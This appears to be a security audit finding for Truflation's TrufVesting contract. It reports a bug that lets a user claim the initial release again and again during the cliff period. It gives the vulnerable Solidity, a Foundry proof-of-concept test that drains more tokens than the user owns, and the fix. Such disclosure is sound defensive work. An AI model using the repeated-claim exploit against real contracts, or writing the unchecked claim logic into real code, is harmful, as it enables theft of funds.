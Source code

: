 Amusing Pewter Eagle

high

# Users can claim more tokens than they staked during cliff period.

## Summary
Users can claim more tokens than they own during cliff period, this can drain out contract `TrufVesting`'s tokens.


## Vulnerability Detail
Function `claimable` is used to calculate the amount of tokens that can be claimed by a user. After initial release and before the cliff period ends, the function returns the initial release amount as the claimable amount, without subtracting the amount of tokens that have been claimed already. 
```solidity
Function: TrufVesting.sol#claimable()

168:        uint64 startTime = userVesting.startTime + info.initialReleasePeriod;
169:
170:        if (startTime > block.timestamp) {
171:            return 0;
172:        }
173:
174:        uint256 totalAmount = userVesting.amount;
175:
176:->      uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR; 
177:
178:        startTime += info.cliff;
179:
180:        if (startTime > block.timestamp) {
181:->          return initialRelease;
182:        }
```
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L168-L182

Then the returned claimable amount is used by function `claim` to transfer tokens to user. 
```solidity
Function: TrufVesting.sol#claim()

217:->      uint256 claimableAmount = claimable(categoryId, vestingId, user);
218:        if (claimAmount == type(uint256).max) {
219:            claimAmount = claimableAmount;
220:        } else if (claimAmount > claimableAmount) {
221:            revert ClaimAmountExceed();
222:        }
223:        if (claimAmount == 0) {
224:            revert ZeroAmount();
225:        }
226:
227:->      categories[categoryId].totalClaimed += claimAmount;
228:->      userVestings[categoryId][vestingId][user].claimed += claimAmount;
229:->      trufToken.safeTransfer(user, claimAmount);
```
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L217-L229

In such case, a user can claim any times before the cliff period ends. Each time the returned claimable amount is the initial release amout, and the resulted total claimed amount can exceed the amount of tokens that he owns.

POC:
Add the following test case to `TrufVesting.t.sol`, and run it with `forge test -vv --match-test testClaim_MultiClaimDuringCliff`.
```solidity
    function testClaim_MultiClaimDuringCliff() external {
        _setupVestingPlan();
        _setupExampleUserVestings();

        // use the vesting that has a cliff period
        uint256 categoryId = 2;
        uint256 vestingId = 0;
        (uint64 initialReleasePct, uint64 initialReleasePeriod, uint64 cliff,,) = vesting.vestingInfos(categoryId, vestingId);
        console.log("initialReleasePct=%d, initialReleasePeriod=%d days, cliff=%d days", initialReleasePct, initialReleasePeriod / 1 days, cliff / 1 days);

        (uint256 amount, uint256 claimed,,) = vesting.userVestings(categoryId, vestingId, alice);
        console.log("before claiming: amount=%d, claimed=%d", amount / 1e18, claimed / 1e18);

        // change time to the cliff period
        vm.warp(block.timestamp + 12 days);

        vm.startPrank(alice);

        uint256 claimAmountEachTime = vesting.claimable(categoryId, vestingId, alice);
        for (uint256 i = 0; i < 30; ++i) {
            vesting.claim(alice, categoryId, vestingId, claimAmountEachTime);
        }

        (amount, claimed,,) = vesting.userVestings(categoryId, vestingId, alice);
        console.log("after claiming: amount=%d, claimed=%d, claimAmountEachTime=%d", amount / 1e18, claimed / 1e18, claimAmountEachTime / 1e18);
        assertTrue(claimed > amount);

        vm.stopPrank();
    }
```
The resulted logs are as follows. After 30 claims, the total claimed amount (300e18) is greater than the initial amount (200e18).
```solidity
[PASS] testClaim_MultiClaimDuringCliff() (gas: 1348778)
Logs:
  initialReleasePct=500, initialReleasePeriod=10 days, cliff=20 days
  before claim: amount=200, claimed=0
  after  claim: amount=200, claimed=300, claimAmountEachTime=10
```


## Impact
Users can claim more tokens than they own during cliff period, this can drain out contract `TrufVesting`'s tokens.


## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L168-L182

https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L217-L229


## Tool used

Manual Review


## Recommendation
In function `claimable`, if block time is in cliff period, return the amount of initial release amount minus the already claimed amount. 
```solidity
Function: TrufVesting.sol#claimable()#L180-L182

         if (startTime > block.timestamp) {
-            return initialRelease;
+            return initialRelease - userVesting.claimed;
         }
```

